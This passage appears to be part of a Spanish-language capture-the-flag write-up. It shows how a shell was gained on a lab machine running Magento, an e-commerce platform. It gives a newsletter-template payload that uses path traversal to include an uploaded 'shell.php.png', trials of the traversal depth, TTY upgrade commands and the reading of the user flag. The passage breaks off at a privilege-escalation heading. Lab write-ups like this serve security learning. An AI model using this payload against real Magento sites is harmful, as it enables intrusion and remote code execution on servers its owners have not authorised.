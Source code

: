 1. damos al boton Add Newsletter Template
1. En el formulario le ponemos

    - Template Name: 
```bash
 Test 
```

    - Template Subject: 
```bash
 Test 
```

    - Template Content: 
```bash
 {{block type="core/template" template="../media/catalog/category/shell.php.png"}} 
```


1. le damos al boton Save Template, pinchamos al template creado y le damos a preview template

Aqui no passa nada, lo que quiere decir que la profundida del path traversal no es buena. Intentamos con 2 
```bash
 ../../media 
```
 hasta llegar
a la buena profundidad que seria 
```bash
 ../../../../../../media/catalog/category/shell.php.png 
```
 y hemos ganado acceso a la maquina victima.

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

Dandole a 
```bash
 cd /home 
```
 vemos que hay un usuario haris que contiene el **user.txt** y podemos ver la flag## Privilege Escalation {-}

### Rootear la maquina {-}
